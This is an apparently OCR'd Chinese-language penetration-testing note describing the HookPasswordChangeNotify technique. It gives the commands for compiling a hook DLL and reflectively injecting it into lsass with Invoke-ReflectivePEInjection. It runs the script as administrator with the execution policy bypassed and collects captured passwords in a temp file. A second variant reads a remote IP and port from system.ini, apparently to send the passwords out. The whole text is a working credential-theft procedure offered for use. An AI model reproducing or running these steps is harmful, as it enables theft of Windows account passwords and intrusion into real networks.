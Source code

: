 	使用VS2015开发环境，MFC设置为在静态库中使用MFC
	编译工程，生成HookPasswordChange.dll
	https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1
	在代码尾部添加如下代码：
	>Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
	并命名为HookPasswordChangeNotify.ps1
	上传HookPasswordChangeNotify.ps1和HookPasswordChange.dll
	管理员权限执行
	>PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
	C:\Windows\Temp下可以找到passwords.txt
	&
	https://gitee.com/RichChigga/PasswordchangeNotify
	上传HookPasswordChangeNotify.ps1和HookPasswordChange.dll 管理员权限执行：
	>PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
	在C:\Windows\System32 新建文件system.ini第一行是连接的ip 第二行是端口
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/520.png)